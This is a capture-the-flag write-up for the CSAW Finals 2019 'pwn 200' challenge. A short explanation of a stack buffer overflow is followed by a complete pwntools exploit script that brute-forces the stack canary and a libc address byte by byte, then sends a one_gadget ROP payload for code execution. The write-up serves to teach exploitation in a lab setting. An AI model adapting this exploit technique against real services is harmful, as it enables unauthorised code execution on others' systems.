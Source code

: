 [](ctf=csaw-finals-2019)
[](type=reverse)
[](tags=ida,brtueforce)
[](tools=ida)

# pwn 200

Description

```
Hello, fresh recruit.

nc pwn.chal.csaw.io 1003
```

Binary is small, x64, c++ compiled with very little features.

It lets you input a buffer which can be copied to a stack buffer or compared to
it.

The write is not limited to size, so its very easy to overflow the stack buffer.
But canaries are present on the stack. We can use the compare feature to brute
force canary byte by byte.

Binary has PIE enabled too, we can leak base or libc addresses too from the
stack using the same technique. This will help us craft a ROP with one_gadget
to achieve RCE.


```python
# -*- coding: UTF-8 -*-
from pwn import *
context.arch = "amd64"
# context.binary = "/tmp/csaw/a.out"
# context.log_level = "debug"
p = process(
    "/tmp/host/csaw/a.out",
    env={
        "LD_PRELOAD": "/tmp/host/csaw/libc-2.27.so"})
raw_input()
# p = remote("pwn.chal.csaw.io", 1003)
# g = gdb.attach(p, "canary\n context\n vmmap\n continue")


def copy(s):
    p.sendline(str(2))
    p.sendline(str(len(s)))
    p.sendline(s)


def check(s):
    p.sendline(str(1))
    p.sendline(str(len(s)))
    p.sendline(s)
    return "found" in p.recvline()


bf = "A" * 9
copy(bf)
"""
00:0000│ rsp  0x7fffffffde90 ◂— 0x2
01:0008│      0x7fffffffde98 ◂— 0x55555bcd
02:0010│      0x7fffffffdea0 ◂— 0xbebafecaefbeadde
03:0018│      0x7fffffffdea8 ◂— 0xbd6d636b76b2a700
04:0020│ rbp  0x7fffffffdeb0 —▸ 0x7fffffffded0 —▸ 0x555555555b80 (__libc_csu_init) ◂— endbr64
05:0028│      0x7fffffffdeb8 —▸ 0x555555555053 (main+60) ◂— mov    eax, 0
06:0030│      0x7fffffffdec0 ◂— '\n\n\n\n\n\n\n\n'
07:0038│      0x7fffffffdec8 ◂— 0xbd6d636b76b2a700
"""

# leak canary
sp = set(['\t', ' ', '\n', '\x0b', '\x0c', '\r'])
for j in xrange(7):
    for i in xrange(1, 256):
        if chr(i) not in sp:
            if(check(bf + chr(i))):
                bf += chr(i)
                break

canary = unpack("\x00" + bf[9:])
success(hex(canary))

bf = "A" * 56
copy(bf)
for j in xrange(6):
    for i in xrange(256):
        if chr(i) not in sp:
            if(check(bf + chr(i))):
                bf += chr(i)
                break


libc = unpack(bf[56:] + "\x00\x00")
success(hex(libc))

pay = flat(0xdeadbeefdeadbeef,
           canary,
           0xdeadbeefdeadbeef,
           0x10a38c + (libc - 0x21b97),
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0,
           0)
context.log_level = "debug"
copy(pay)

p.interactive()
```
